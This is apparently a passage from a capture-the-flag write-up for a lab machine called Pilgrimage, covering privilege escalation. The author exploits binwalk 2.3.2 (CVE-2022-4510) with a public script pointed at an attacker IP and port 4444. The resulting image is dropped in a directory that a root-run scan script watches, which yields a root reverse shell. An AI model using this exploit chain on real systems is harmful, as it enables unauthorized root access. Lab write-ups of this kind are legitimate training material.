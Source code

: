 This uses `inotifywait` to wait for files present in the `/shrunk` directory (which is where images uploaded are stored), and then it uses `binwalk` on them to make sure that there's no hidden stuff within it.&#x20;

We can enumerate the version of `binwalk` being used:

```
emily@pilgrimage:~$ binwalk --help

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk
```

There are public RCE exploits for this particular version:

{% embed url="https://vulners.com/packetstorm/PACKETSTORM:171724" %}

We can use this script to embed a payload within an empty image (run `touch sample.png`).&#x20;

```
$ python3 pe_rce.py sample.png 10.10.14.86 4444

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
```

Afterwards, we can download this file to the `/var/www/pilgrimage.htb/shrunk` folder as anything. If you monitor `pspy64` output, this would cause the `malwarescan.sh` script to be run, and our listener port would have a reverse shell!

<figure><img src="../../.gitbook/assets/image (111) (5).png" alt=""><figcaption></figcaption></figure>

Rooted!
